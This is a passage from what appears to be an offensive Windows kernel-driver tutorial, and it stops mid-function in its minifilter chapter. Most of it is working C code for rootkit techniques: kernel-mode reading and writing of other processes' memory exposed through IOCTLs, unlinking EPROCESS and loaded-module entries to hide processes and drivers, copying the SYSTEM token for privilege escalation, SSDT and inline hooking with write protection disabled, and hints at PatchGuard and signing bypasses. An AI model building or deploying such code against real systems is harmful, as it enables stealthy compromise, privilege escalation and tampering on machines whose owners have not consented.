    if (!buffer) return STATUS_INSUFFICIENT_RESOURCES;

    NTSTATUS status = ZwQuerySystemInformation(
        SystemProcessInformation,
        buffer, bufferSize, &bufferSize
    );

    if (!NT_SUCCESS(status)) {
        ExFreePoolWithTag(buffer, 'corP');
        return status;
    }

    PSYSTEM_PROCESS_INFORMATION proc = (PSYSTEM_PROCESS_INFORMATION)buffer;

    while (TRUE) {
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
                   "[Enum] PID: %llu  Name: %wZ\n",
                   (ULONG64)(ULONG_PTR)proc->UniqueProcessId,
                   &proc->ImageName);

        if (proc->NextEntryOffset == 0) break;
        proc = (PSYSTEM_PROCESS_INFORMATION)(
            (PUCHAR)proc + proc->NextEntryOffset
        );
    }

    ExFreePoolWithTag(buffer, 'corP');
    return STATUS_SUCCESS;
}
Call EnumerateProcesses() from DriverEntry or from an IOCTL handler.

7.2 Walking EPROCESS Linked List (ActiveProcessLinks)
Every EPROCESS structure contains a LIST_ENTRY field called
ActiveProcessLinks that forms a doubly-linked list of all processes.

C

VOID WalkEprocessList(VOID)
{
    PEPROCESS currentProcess = PsGetCurrentProcess(); // System process

    /*
     * ActiveProcessLinks offset varies by Windows version.
     * Windows 10 21H2 x64: 0x448
     * Windows 11 22H2 x64: 0x448
     * Use WinDbg: dt nt!_EPROCESS ActiveProcessLinks
     */
    ULONG offset = 0x448;

    PLIST_ENTRY head = (PLIST_ENTRY)((PUCHAR)currentProcess + offset);
    PLIST_ENTRY entry = head->Flink;

    while (entry != head) {
        PEPROCESS process = (PEPROCESS)((PUCHAR)entry - offset);
        HANDLE pid = PsGetProcessId(process);
        PUCHAR name = PsGetProcessImageFileName(process);

        DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
                   "[Walk] PID: %llu  Name: %s\n",
                   (ULONG64)(ULONG_PTR)pid, name);

        entry = entry->Flink;
    }
}
The offset 0x448 is version-dependent. Always verify it with WinDbg:

text

kd> dt nt!_EPROCESS ActiveProcessLinks
{: .prompt-warning }

Chapter 8: Reading and Writing Process Memory from the Kernel
This is one of the most common capabilities in offensive drivers: reading or
writing the memory of another process from Ring 0.

8.1 Using MmCopyVirtualMemory (undocumented)
C

extern NTSTATUS NTAPI MmCopyVirtualMemory(
    PEPROCESS  SourceProcess,
    PVOID      SourceAddress,
    PEPROCESS  TargetProcess,
    PVOID      TargetAddress,
    SIZE_T     BufferSize,
    KPROCESSOR_MODE PreviousMode,
    PSIZE_T    ReturnSize
);
Reading target process memory:

C

NTSTATUS ReadProcessMemory(
    HANDLE pid,
    PVOID  sourceAddr,
    PVOID  destBuffer,
    SIZE_T size
)
{
    PEPROCESS process;
    NTSTATUS status = PsLookupProcessByProcessId(pid, &process);
    if (!NT_SUCCESS(status)) return status;

    SIZE_T bytes = 0;
    status = MmCopyVirtualMemory(
        process,                // Source process
        sourceAddr,             // Source address
        PsGetCurrentProcess(),  // Target = our driver (System)
        destBuffer,             // Destination
        size,
        KernelMode,
        &bytes
    );

    ObDereferenceObject(process);
    return status;
}
Writing to target process memory:

C

NTSTATUS WriteProcessMemory(
    HANDLE pid,
    PVOID  targetAddr,
    PVOID  sourceBuffer,
    SIZE_T size
)
{
    PEPROCESS process;
    NTSTATUS status = PsLookupProcessByProcessId(pid, &process);
    if (!NT_SUCCESS(status)) return status;

    SIZE_T bytes = 0;
    status = MmCopyVirtualMemory(
        PsGetCurrentProcess(),
        sourceBuffer,
        process,
        targetAddr,
        size,
        KernelMode,
        &bytes
    );

    ObDereferenceObject(process);
    return status;
}
8.2 Using KeStackAttachProcess / KeUnstackDetachProcess
An alternative approach — "attach" to the target process's address space:

C

NTSTATUS ReadViaAttach(
    HANDLE pid,
    PVOID  userAddr,
    PVOID  kernelBuf,
    SIZE_T size
)
{
    PEPROCESS process;
    NTSTATUS status = PsLookupProcessByProcessId(pid, &process);
    if (!NT_SUCCESS(status)) return status;

    KAPC_STATE apcState;
    KeStackAttachProcess(process, &apcState);

    __try {
        ProbeForRead(userAddr, size, 1);
        RtlCopyMemory(kernelBuf, userAddr, size);
        status = STATUS_SUCCESS;
    }
    __except (EXCEPTION_EXECUTE_HANDLER) {
        status = GetExceptionCode();
    }

    KeUnstackDetachProcess(&apcState);
    ObDereferenceObject(process);
    return status;
}
Always wrap user-mode memory access in __try / __except when using
attach. The pages may be paged out, freed, or invalid.
{: .prompt-danger }

8.3 Exposing Read/Write via IOCTL
Define structures shared between driver and client:

C

/* shared.h */

#define IOCTL_READ_PROCESS_MEMORY \
    CTL_CODE(FILE_DEVICE_UNKNOWN, 0x810, METHOD_BUFFERED, FILE_ANY_ACCESS)

#define IOCTL_WRITE_PROCESS_MEMORY \
    CTL_CODE(FILE_DEVICE_UNKNOWN, 0x811, METHOD_BUFFERED, FILE_ANY_ACCESS)

typedef struct _MEMORY_REQUEST {
    ULONG64 ProcessId;
    ULONG64 Address;
    ULONG64 Size;
    ULONG64 Buffer;   // user-mode pointer for write; output for read
} MEMORY_REQUEST, *PMEMORY_REQUEST;
Driver-side IOCTL handler:

C

case IOCTL_READ_PROCESS_MEMORY:
{
    if (inLength < sizeof(MEMORY_REQUEST) || outLength < sizeof(MEMORY_REQUEST)) {
        status = STATUS_BUFFER_TOO_SMALL;
        break;
    }

    PMEMORY_REQUEST req = (PMEMORY_REQUEST)buffer;

    SIZE_T readSize = (SIZE_T)req->Size;
    if (readSize > outLength - sizeof(MEMORY_REQUEST)) {
        status = STATUS_BUFFER_TOO_SMALL;
        break;
    }

    // Read into the output buffer, right after the MEMORY_REQUEST header
    PVOID outData = (PUCHAR)buffer + sizeof(MEMORY_REQUEST);

    status = ReadProcessMemory(
        (HANDLE)req->ProcessId,
        (PVOID)req->Address,
        outData,
        readSize
    );

    if (NT_SUCCESS(status)) {
        info = sizeof(MEMORY_REQUEST) + readSize;
    }
    break;
}
User-mode client:

C

BOOL KernelReadMemory(HANDLE hDevice, DWORD pid, PVOID addr, PVOID out, SIZE_T size)
{
    SIZE_T totalOut = sizeof(MEMORY_REQUEST) + size;
    PBYTE buf = (PBYTE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, totalOut);
    if (!buf) return FALSE;

    PMEMORY_REQUEST req = (PMEMORY_REQUEST)buf;
    req->ProcessId = pid;
    req->Address   = (ULONG64)addr;
    req->Size      = size;

    DWORD returned = 0;
    BOOL ok = DeviceIoControl(
        hDevice, IOCTL_READ_PROCESS_MEMORY,
        buf, sizeof(MEMORY_REQUEST),
        buf, (DWORD)totalOut,
        &returned, NULL
    );

    if (ok && returned >= sizeof(MEMORY_REQUEST) + size) {
        CopyMemory(out, buf + sizeof(MEMORY_REQUEST), size);
    }

    HeapFree(GetProcessHeap(), 0, buf);
    return ok;
}
Chapter 9: Kernel Callbacks — Monitoring Process, Thread, and Image Events
Windows provides official callback mechanisms that drivers can register to be
notified of various events. These are extremely powerful for both defensive
and offensive purposes.

9.1 Process Creation Callbacks
C

NTSTATUS PsSetCreateProcessNotifyRoutineEx(
    PCREATE_PROCESS_NOTIFY_ROUTINE_EX NotifyRoutine,
    BOOLEAN                           Remove
);
Our callback:

C

VOID
ProcessNotifyCallback(
    _Inout_  PEPROCESS              Process,
    _In_     HANDLE                 ProcessId,
    _Inout_opt_ PPS_CREATE_NOTIFY_INFO CreateInfo
)
{
    UNREFERENCED_PARAMETER(Process);

    if (CreateInfo) {
        // Process is being CREATED
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
                   "[CB] Process CREATED: PID=%llu Image=%wZ\n",
                   (ULONG64)(ULONG_PTR)ProcessId,
                   CreateInfo->ImageFileName);

        // OFFENSIVE: Block a specific process
        if (CreateInfo->ImageFileName &&
            wcsstr(CreateInfo->ImageFileName->Buffer, L"notepad.exe"))
        {
            CreateInfo->CreationStatus = STATUS_ACCESS_DENIED;
            DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_WARNING_LEVEL,
                       "[CB] BLOCKED notepad.exe!\n");
        }
    }
    else {
        // Process is EXITING
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
                   "[CB] Process EXITED: PID=%llu\n",
                   (ULONG64)(ULONG_PTR)ProcessId);
    }
}
Register in DriverEntry:

C

status = PsSetCreateProcessNotifyRoutineEx(ProcessNotifyCallback, FALSE);
if (!NT_SUCCESS(status)) {
    DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_ERROR_LEVEL,
               "Failed to register process callback: 0x%08X\n", status);
}
Unregister in DriverUnload:

C

PsSetCreateProcessNotifyRoutineEx(ProcessNotifyCallback, TRUE);
Important: If you set IMAGE_DLLCHARACTERISTICS_FORCE_INTEGRITY in
the linker settings of your driver project, PsSetCreateProcessNotifyRoutineEx
will work. Otherwise you may get STATUS_ACCESS_DENIED. Alternatively,
use the older PsSetCreateProcessNotifyRoutine (without Ex).
{: .prompt-warning }

In Visual Studio, set this in Linker → Advanced → Force Integrity Check →
Yes (/INTEGRITYCHECK).

9.2 Thread Creation Callbacks
C

VOID
ThreadNotifyCallback(
    _In_ HANDLE ProcessId,
    _In_ HANDLE ThreadId,
    _In_ BOOLEAN Create
)
{
    if (Create) {
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
                   "[CB] Thread CREATED: PID=%llu TID=%llu\n",
                   (ULONG64)(ULONG_PTR)ProcessId,
                   (ULONG64)(ULONG_PTR)ThreadId);
    }
    else {
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
                   "[CB] Thread EXITED: PID=%llu TID=%llu\n",
                   (ULONG64)(ULONG_PTR)ProcessId,
                   (ULONG64)(ULONG_PTR)ThreadId);
    }
}

// Register:
PsSetCreateThreadNotifyRoutine(ThreadNotifyCallback);

// Unregister:
PsRemoveCreateThreadNotifyRoutine(ThreadNotifyCallback);
9.3 Image Load Callbacks
Notified every time a PE image (exe, dll, sys) is loaded:

C

VOID
ImageLoadCallback(
    _In_opt_ PUNICODE_STRING FullImageName,
    _In_     HANDLE          ProcessId,
    _In_     PIMAGE_INFO     ImageInfo
)
{
    if (FullImageName) {
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
                   "[CB] Image LOADED: PID=%llu Base=0x%p Size=0x%lX Name=%wZ\n",
                   (ULONG64)(ULONG_PTR)ProcessId,
                   ImageInfo->ImageBase,
                   ImageInfo->ImageSize,
                   FullImageName);
    }
}

// Register:
PsSetLoadImageNotifyRoutine(ImageLoadCallback);

// Unregister:
PsRemoveLoadImageNotifyRoutine(ImageLoadCallback);
9.4 Registry Callbacks
Monitor and intercept registry operations:

C

LARGE_INTEGER g_RegCookie;

NTSTATUS
RegistryCallback(
    _In_ PVOID CallbackContext,
    _In_opt_ PVOID Argument1,    // REG_NOTIFY_CLASS
    _In_opt_ PVOID Argument2     // Info structure
)
{
    UNREFERENCED_PARAMETER(CallbackContext);

    REG_NOTIFY_CLASS notifyClass = (REG_NOTIFY_CLASS)(ULONG_PTR)Argument1;

    switch (notifyClass)
    {
    case RegNtPreSetValueKey:
    {
        PREG_SET_VALUE_KEY_INFORMATION info =
            (PREG_SET_VALUE_KEY_INFORMATION)Argument2;

        DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
                   "[REG] SetValue: %wZ\n", info->ValueName);

        // Block writing to a specific value:
        UNICODE_STRING protectedValue =
            RTL_CONSTANT_STRING(L"ProtectedValue");
        if (RtlEqualUnicodeString(info->ValueName, &protectedValue, TRUE)) {
            return STATUS_ACCESS_DENIED;
        }
        break;
    }

    default:
        break;
    }

    return STATUS_SUCCESS;
}

// Register:
UNICODE_STRING altitude = RTL_CONSTANT_STRING(L"360000");
status = CmRegisterCallbackEx(
    RegistryCallback,
    &altitude,
    DriverObject,
    NULL,
    &g_RegCookie,
    NULL
);

// Unregister:
CmUnRegisterCallback(g_RegCookie);
9.5 Object Callbacks (ObRegisterCallbacks)
Intercept handle creation/duplication for processes and threads. This is how
anti-cheat drivers strip PROCESS_VM_READ / PROCESS_VM_WRITE from handles
to protected processes.

C

OB_PREOP_CALLBACK_STATUS
ObjectPreCallback(
    _In_ PVOID                         RegistrationContext,
    _Inout_ POB_PRE_OPERATION_INFORMATION OpInfo
)
{
    UNREFERENCED_PARAMETER(RegistrationContext);

    if (OpInfo->ObjectType == *PsProcessType) {
        PEPROCESS process = (PEPROCESS)OpInfo->Object;
        HANDLE pid = PsGetProcessId(process);

        // Protect a specific PID
        if ((ULONG64)(ULONG_PTR)pid == g_ProtectedPid) {
            if (OpInfo->Operation == OB_OPERATION_HANDLE_CREATE) {
                // Strip dangerous access rights
                OpInfo->Parameters->CreateHandleInformation.DesiredAccess &=
                    ~(PROCESS_VM_READ | PROCESS_VM_WRITE |
                      PROCESS_VM_OPERATION | PROCESS_TERMINATE);
            }
        }
    }

    return OB_PREOP_SUCCESS;
}

// Registration:
OB_OPERATION_REGISTRATION opReg = {0};
opReg.ObjectType   = PsProcessType;
opReg.Operations   = OB_OPERATION_HANDLE_CREATE | OB_OPERATION_HANDLE_DUPLICATE;
opReg.PreOperation = ObjectPreCallback;

OB_CALLBACK_REGISTRATION cbReg = {0};
cbReg.Version                  = OB_FLT_REGISTRATION_VERSION;
cbReg.OperationRegistrationCount = 1;
cbReg.OperationRegistration    = &opReg;

UNICODE_STRING cbAltitude = RTL_CONSTANT_STRING(L"1000");
cbReg.Altitude = &cbAltitude;

PVOID regHandle = NULL;
status = ObRegisterCallbacks(&cbReg, &regHandle);

// Unregister:
ObUnRegisterCallbacks(regHandle);
ObRegisterCallbacks requires the driver to be signed (or test-signed)
and have /INTEGRITYCHECK. On older Windows versions you can bypass this
by patching the PLDR_DATA_TABLE_ENTRY->Flags field — but that is
another topic.
{: .prompt-warning }

Chapter 10: Direct Kernel Object Manipulation (DKOM)
DKOM is the classic rootkit technique: modify kernel data structures directly
to hide processes, drivers, connections, etc.

10.1 Hiding a Process
Every process's EPROCESS is linked into a doubly-linked list via
ActiveProcessLinks. To hide a process, unlink it:

C

NTSTATUS HideProcess(HANDLE pid)
{
    PEPROCESS process;
    NTSTATUS status = PsLookupProcessByProcessId(pid, &process);
    if (!NT_SUCCESS(status)) return status;

    // Offset to ActiveProcessLinks — VERIFY FOR YOUR WINDOWS VERSION
    ULONG offset = 0x448;  // Win10 21H2 / Win11 22H2 x64

    PLIST_ENTRY entry = (PLIST_ENTRY)((PUCHAR)process + offset);

    // Unlink from the list
    PLIST_ENTRY prev = entry->Blink;
    PLIST_ENTRY next = entry->Flink;

    prev->Flink = next;
    next->Blink = prev;

    // Point to ourselves (so if someone walks our links, they loop)
    entry->Flink = entry;
    entry->Blink = entry;

    ObDereferenceObject(process);

    DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
               "[DKOM] Process PID=%llu hidden from ActiveProcessLinks\n",
               (ULONG64)(ULONG_PTR)pid);

    return STATUS_SUCCESS;
}
After this:

Task Manager will not show the process.
EnumProcesses() / NtQuerySystemInformation will skip it.
The process continues to run — the scheduler uses a different structure
(KiProcessListHead) and the process still has threads.
⚠️ PatchGuard may detect this modification on modern Windows and
BSOD the system. We discuss PatchGuard evasion later.
{: .prompt-danger }

10.2 Hiding a Driver
Drivers are tracked in the PsLoadedModuleList — a linked list of
KLDR_DATA_TABLE_ENTRY structures:

C

typedef struct _KLDR_DATA_TABLE_ENTRY {
    LIST_ENTRY InLoadOrderLinks;
    PVOID      ExceptionTable;
    ULONG      ExceptionTableSize;
    PVOID      GpValue;
    PVOID      NonPagedDebugInfo;
    PVOID      DllBase;
    PVOID      EntryPoint;
    ULONG      SizeOfImage;
    UNICODE_STRING FullDllName;
    UNICODE_STRING BaseDllName;
    /* ... */
} KLDR_DATA_TABLE_ENTRY, *PKLDR_DATA_TABLE_ENTRY;
C

VOID HideDriver(PDRIVER_OBJECT DriverObject)
{
    PKLDR_DATA_TABLE_ENTRY entry =
        (PKLDR_DATA_TABLE_ENTRY)DriverObject->DriverSection;

    PLIST_ENTRY prev = entry->InLoadOrderLinks.Blink;
    PLIST_ENTRY next = entry->InLoadOrderLinks.Flink;

    prev->Flink = next;
    next->Blink = prev;

    entry->InLoadOrderLinks.Flink = &entry->InLoadOrderLinks;
    entry->InLoadOrderLinks.Blink = &entry->InLoadOrderLinks;

    DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
               "[DKOM] Driver hidden from PsLoadedModuleList\n");
}
Call HideDriver(DriverObject) at the end of DriverEntry. After this:

lm in WinDbg will not list your driver.
EnumDeviceDrivers() will skip it.
The driver continues to run.
10.3 Elevating Process Token (Privilege Escalation)
Every process has a Token field in its EPROCESS. We can copy the SYSTEM
token to any process:

C

NTSTATUS ElevateToSystem(HANDLE targetPid)
{
    PEPROCESS systemProcess;
    PEPROCESS targetProcess;

    // System process has PID 4
    NTSTATUS status = PsLookupProcessByProcessId((HANDLE)4, &systemProcess);
    if (!NT_SUCCESS(status)) return status;

    status = PsLookupProcessByProcessId(targetPid, &targetProcess);
    if (!NT_SUCCESS(status)) {
        ObDereferenceObject(systemProcess);
        return status;
    }

    // Token offset — VERIFY FOR YOUR WINDOWS VERSION
    // dt nt!_EPROCESS Token
    // Win10 21H2 x64: 0x4B8
    ULONG tokenOffset = 0x4B8;

    // Read the SYSTEM token (it's an EX_FAST_REF, i.e., a pointer with low
    // bits used as a reference count)
    ULONG64 systemToken = *(PULONG64)((PUCHAR)systemProcess + tokenOffset);

    // Write it into the target process
    *(PULONG64)((PUCHAR)targetProcess + tokenOffset) = systemToken;

    ObDereferenceObject(targetProcess);
    ObDereferenceObject(systemProcess);

    DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
               "[DKOM] PID %llu now has SYSTEM token!\n",
               (ULONG64)(ULONG_PTR)targetPid);

    return STATUS_SUCCESS;
}
Now the target process can do anything — open any process, read any file,
modify any registry key.

10.4 Finding Offsets Dynamically
Hardcoding offsets is brittle. Here are techniques to find them at runtime:

Method 1: PDB Parsing
Download the PDB for ntoskrnl.exe from the Microsoft Symbol Server and
parse it for structure offsets. Libraries like symsrv or custom parsers
can do this.

Method 2: Scanning for Known Patterns
For example, PsGetProcessImageFileName accesses EPROCESS.ImageFileName.
Disassemble the function:

text

nt!PsGetProcessImageFileName:
    lea rax, [rcx+0x5A8]   ; 0x5A8 = ImageFileName offset
    ret
Read the offset from the instruction bytes.

C

ULONG GetImageFileNameOffset(VOID)
{
    PUCHAR func = (PUCHAR)PsGetProcessImageFileName;

    // Pattern: 48 8D 41 XX  (lea rax, [rcx+XX]) for small offsets
    // Pattern: 48 8D 81 XX XX XX XX for larger offsets
    if (func[0] == 0x48 && func[1] == 0x8D && func[2] == 0x81) {
        return *(PULONG)(func + 3);
    }
    else if (func[0] == 0x48 && func[1] == 0x8D && func[2] == 0x41) {
        return (ULONG)func[3];
    }

    return 0; // Unknown
}
Method 3: Using Documented APIs as Anchors
Use PsGetProcessId, PsGetProcessImageFileName, PsGetProcessPeb —
each accesses a known field. Compare the field address to the EPROCESS base
to compute the offset.

Chapter 11: System Service Descriptor Table (SSDT) Hooking
Note: On 64-bit Windows, SSDT is protected by PatchGuard. The techniques
below work conceptually and on 32-bit systems or with PatchGuard disabled.
On modern x64 you would need to combine this with PatchGuard evasion.
{: .prompt-warning }

11.1 Understanding the SSDT
The SSDT (KeServiceDescriptorTable) holds an array of relative offsets to
system call handlers:

C

typedef struct _KSERVICE_TABLE_DESCRIPTOR {
    PLONG   ServiceTableBase;   // Array of 32-bit offsets (x64)
    PULONG  ServiceCounterTableBase;
    ULONG   NumberOfServices;
    PUCHAR  ParamTableBase;
} KSERVICE_TABLE_DESCRIPTOR, *PKSERVICE_TABLE_DESCRIPTOR;
On x64, each entry is a 4-byte signed offset shifted right by 4 bits:

text

RealAddress = ServiceTableBase + (Entry >> 4)
11.2 Finding the SSDT
KeServiceDescriptorTable is exported by ntoskrnl.exe:

C

extern PKSERVICE_TABLE_DESCRIPTOR KeServiceDescriptorTable;
However, on x64 it may not be directly exported. You can find it by
scanning KiSystemServiceStart:

C

PVOID FindSSDT(VOID)
{
    // KeServiceDescriptorTable is referenced in KiSystemServiceRepeat
    // Pattern: 4C 8D 15 XX XX XX XX  (lea r10, [KeServiceDescriptorTable])

    PVOID ntBase = GetKernelBase(); // Custom function to find ntoskrnl base
    // ... scan the .text section for the pattern ...
    // ... compute RIP-relative address ...
    return ssdt;
}
11.3 Hooking an SSDT Entry
To hook, say, NtTerminateProcess (index 0x2C on Win10):

C

typedef NTSTATUS (*PFN_NtTerminateProcess)(HANDLE, NTSTATUS);
PFN_NtTerminateProcess OrigNtTerminateProcess;

NTSTATUS
HookedNtTerminateProcess(HANDLE ProcessHandle, NTSTATUS ExitStatus)
{
    // Log or block
    PEPROCESS process;
    NTSTATUS status = ObReferenceObjectByHandle(
        ProcessHandle, 0, *PsProcessType, KernelMode,
        (PVOID*)&process, NULL
    );

    if (NT_SUCCESS(status)) {
        HANDLE pid = PsGetProcessId(process);
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
                   "[SSDT] NtTerminateProcess called on PID %llu\n",
                   (ULONG64)(ULONG_PTR)pid);

        // Block termination of protected PID
        if ((ULONG64)(ULONG_PTR)pid == g_ProtectedPid) {
            ObDereferenceObject(process);
            return STATUS_ACCESS_DENIED;
        }

        ObDereferenceObject(process);
    }

    return OrigNtTerminateProcess(ProcessHandle, ExitStatus);
}

// Install hook:
VOID InstallSSDTHook(VOID)
{
    ULONG index = 0x2C; // NtTerminateProcess on Win10 x64

    // Disable write protection
    ULONG64 cr0 = __readcr0();
    __writecr0(cr0 & ~(1ULL << 16)); // Clear WP bit

    PLONG table = KeServiceDescriptorTable->ServiceTableBase;

    // Save original
    LONG origOffset = table[index];
    OrigNtTerminateProcess =
        (PFN_NtTerminateProcess)((PUCHAR)table + (origOffset >> 4));

    // Compute new offset
    LONG newOffset =
        (LONG)((PUCHAR)HookedNtTerminateProcess - (PUCHAR)table) << 4;
    table[index] = newOffset;

    // Re-enable write protection
    __writecr0(cr0);
}
This is extremely simplified. Real SSDT hooking on x64 requires:

Pro1. Proper CR0.WP handling (or MDL-based write).
PatchGuard evasion.
Correct offset calculation (signed, 4-bit shift).
The hook function must be within ±2GB of the SSDT base.
{: .prompt-danger }
Chapter 12: Inline Hooking (Kernel Detours)
Instead of modifying the SSDT table, you can patch the function itself.

12.1 The Technique
Save the first N bytes of the target function.
Overwrite them with a JMP to your hook function.
In your hook, do your work, then call a "trampoline" that executes the
saved bytes and jumps back.
text

Original function:
  mov edi, edi
  push ebp
  mov ebp, esp
  ...

After hooking:
  jmp HookFunction    ; 5 bytes (x86) or 14 bytes (x64)
  <remaining original code>

Trampoline:
  mov edi, edi        ; saved bytes
  push ebp
  mov ebp, esp
  jmp (OriginalFunc + 5)
12.2 x64 Jump Stub
On x64, a near JMP rel32 only covers ±2GB. For arbitrary addresses use:

asm

; 14-byte absolute jump
mov rax, <64-bit address>    ; 48 B8 XX XX XX XX XX XX XX XX
jmp rax                       ; FF E0
Or using push/ret (also 14 bytes):

asm

push <low 32 bits>
mov dword ptr [rsp+4], <high 32 bits>
ret
12.3 Implementation
C

#pragma pack(push, 1)
typedef struct _JMP_ABS {
    BYTE  opcode[2];   // 0xFF, 0x25
    DWORD dummy;       // 0x00000000
    ULONG64 address;   // Absolute address
} JMP_ABS;
#pragma pack(pop)

typedef struct _HOOK_INFO {
    PVOID    OriginalFunction;
    PVOID    HookFunction;
    PVOID    Trampoline;
    BYTE     OriginalBytes[14];
    BOOLEAN  Installed;
} HOOK_INFO, *PHOOK_INFO;

NTSTATUS InstallInlineHook(PHOOK_INFO hookInfo)
{
    // 1. Allocate trampoline near the original function
    hookInfo->Trampoline = ExAllocatePool2(
        POOL_FLAG_NON_PAGED | POOL_FLAG_NON_PAGED_EXECUTE,
        64, 'pmrT'
    );
    if (!hookInfo->Trampoline) return STATUS_INSUFFICIENT_RESOURCES;

    // 2. Save original bytes
    RtlCopyMemory(hookInfo->OriginalBytes,
                   hookInfo->OriginalFunction, 14);

    // 3. Build trampoline: original bytes + jmp back
    PUCHAR tramp = (PUCHAR)hookInfo->Trampoline;
    RtlCopyMemory(tramp, hookInfo->OriginalBytes, 14);

    // Append JMP back to original + 14
    JMP_ABS jmpBack = {0};
    jmpBack.opcode[0] = 0xFF;
    jmpBack.opcode[1] = 0x25;
    jmpBack.dummy     = 0;
    jmpBack.address   = (ULONG64)hookInfo->OriginalFunction + 14;
    RtlCopyMemory(tramp + 14, &jmpBack, sizeof(jmpBack));

    // 4. Disable WP and patch original function
    KIRQL oldIrql = KeRaiseIrqlToDpcLevel();
    ULONG64 cr0 = __readcr0();
    __writecr0(cr0 & ~(1ULL << 16));

    JMP_ABS jmpToHook = {0};
    jmpToHook.opcode[0] = 0xFF;
    jmpToHook.opcode[1] = 0x25;
    jmpToHook.dummy     = 0;
    jmpToHook.address   = (ULONG64)hookInfo->HookFunction;
    RtlCopyMemory(hookInfo->OriginalFunction, &jmpToHook, sizeof(jmpToHook));

    __writecr0(cr0);
    KeLowerIrql(oldIrql);

    hookInfo->Installed = TRUE;
    return STATUS_SUCCESS;
}

VOID RemoveInlineHook(PHOOK_INFO hookInfo)
{
    if (!hookInfo->Installed) return;

    KIRQL oldIrql = KeRaiseIrqlToDpcLevel();
    ULONG64 cr0 = __readcr0();
    __writecr0(cr0 & ~(1ULL << 16));

    RtlCopyMemory(hookInfo->OriginalFunction,
                   hookInfo->OriginalBytes, 14);

    __writecr0(cr0);
    KeLowerIrql(oldIrql);

    ExFreePoolWithTag(hookInfo->Trampoline, 'pmrT');
    hookInfo->Installed = FALSE;
}
Using __writecr0 to disable WP (Write Protection) is detectable. A
more stealthy approach uses MDL-based remapping (see Chapter 12.4).
{: .prompt-tip }

12.4 MDL-Based Write to Read-Only Pages
Instead of toggling CR0.WP:

C

NTSTATUS WriteToReadOnlyMemory(PVOID destination, PVOID source, SIZE_T size)
{
    PMDL mdl = IoAllocateMdl(destination, (ULONG)size, FALSE, FALSE, NULL);
    if (!mdl) return STATUS_INSUFFICIENT_RESOURCES;

    MmProbeAndLockPages(mdl, KernelMode, IoReadAccess);

    PVOID mapped = MmMapLockedPagesSpecifyCache(
        mdl, KernelMode, MmNonCached, NULL, FALSE, NormalPagePriority
    );

    if (!mapped) {
        MmUnlockPages(mdl);
        IoFreeMdl(mdl);
        return STATUS_UNSUCCESSFUL;
    }

    // Change protection to read-write
    NTSTATUS status = MmProtectMdlSystemAddress(mdl, PAGE_READWRITE);
    if (NT_SUCCESS(status)) {
        RtlCopyMemory(mapped, source, size);
    }

    MmUnmapLockedPages(mapped, mdl);
    MmUnlockPages(mdl);
    IoFreeMdl(mdl);
    return status;
}
Chapter 13: Minifilter Drivers — File System Filtering
Minifilters are the modern way to intercept file-system operations. They are
used by anti-virus, backup software, and — offensively — to hide files,
redirect reads, or block access.

13.1 Minifilter Architecture
mermaid

graph TD
    APP[User Application] -->|CreateFile| IOM[I/O Manager]
    IOM --> FM[Filter Manager - fltmgr.sys]
    FM --> MF1[Minifilter 1 - Altitude 360000]
    FM --> MF2[Minifilter 2 - Altitude 320000]
    FM --> FS[File System - NTFS]
    FS --> DISK[Disk Driver]
Each minifilter has an altitude — a numeric string that determines its
position in the filter stack. Higher altitudes are called first on the way
down and last on the way up.

13.2 Minimal Minifilter Driver
C

/* minifilter.c */

#include <fltKernel.h>

PFLT_FILTER g_FilterHandle = NULL;

/* Forward declarations */
NTSTATUS MiniUnload(FLT_FILTER_UNLOAD_FLAGS Flags);
FLT_PREOP_CALLBACK_STATUS PreCreate(
    PFLT_CALLBACK_DATA Data,
    PCFLT_RELATED_OBJECTS FltObjects,
    PVOID* CompletionContext
);

/* Operation registration */
const FLT_OPERATION_REGISTRATION Callbacks[] = {
    {
        IRP_MJ_CREATE,
        0,
        PreCreate,    // Pre-operation
        NULL          // Post-operation
    },
    { IRP_MJ_OPERATION_END }
};

/* Filter registration */
const FLT_REGISTRATION FilterRegistration = {
    sizeof(FLT_REGISTRATION),
    FLT_REGISTRATION_VERSION,
    0,                          // Flags
    NULL,                       // Context
    Callbacks,                  // Operation callbacks
    MiniUnload,                 // Unload
    NULL,                       // InstanceSetup
    NULL,                       // InstanceQueryTeardown
    NULL,                       // InstanceTeardownStart
    NULL,                       // InstanceTeardownComplete
    NULL, NULL, NULL
};

/* DriverEntry */
NTSTATUS
DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
    NTSTATUS status = FltRegisterFilter(
        DriverObject, &FilterRegistration, &g_FilterHandle
    );

    if (NT_SUCCESS(status)) {
        status = FltStartFiltering(g_FilterHandle);
        if (!NT_SUCCESS(status)) {
            FltUnregisterFilter(g_FilterHandle);
        }
    }

    return status;
}

/* Unload */
NTSTATUS MiniUnload(FLT_FILTER_UNLOAD_FLAGS Flags)
{
    UNREFERENCED_PARAMETER(Flags);
    FltUnregisterFilter(g_FilterHandle);
    return STATUS_SUCCESS;
}

/* Pre-Create callback */
FLT_PREOP_CALLBACK_STATUS
PreCreate(
    PFLT_CALLBACK_DATA       Data,
    PCFLT_RELATED_OBJECTS     FltObjects,
    PVOID*                    CompletionContext
)
{
    UNREFERENCED_PARAMETER(FltObjects);
    UNREFERENCED_PARAMETER(CompletionContext);

    PFLT_FILE_NAME_INFORMATION nameInfo = NULL;

    NTSTATUS status = FltGetFileNameInformation(
        Data,
